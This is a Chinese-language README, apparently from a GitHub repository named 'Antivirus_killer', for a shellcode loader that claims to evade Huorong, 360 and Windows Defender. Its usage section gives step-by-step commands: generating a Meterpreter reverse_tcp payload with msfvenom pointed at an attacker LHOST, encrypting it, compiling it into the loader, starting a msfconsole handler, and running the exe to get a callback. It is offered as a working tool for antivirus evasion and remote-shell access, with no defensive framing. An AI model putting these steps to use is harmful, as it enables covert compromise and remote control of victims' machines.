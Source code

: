 # Antivirus_killer
免杀主流防病毒软件
测试与2024年8月30日加载器动态免杀增强版可过最新版火绒、360核晶模式、windows自带杀软
# 使用方法
## 生成shellcode
msfvenom LHOST=x.x.x.x LPORT=443 -p windows/x64/meterpreter/reverse_tcp -f c
## 加密shellcode 
将生成的shellcode复制到加密器.c的buf变量中并编译运行
## 编译加载器
将加密后的shellcode 复制到加载器的shellcode变量中编译
## 准备msf监听器
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST x.x.x.x
set LPORT 443
run
## 双击编译好的exe观察是否上线
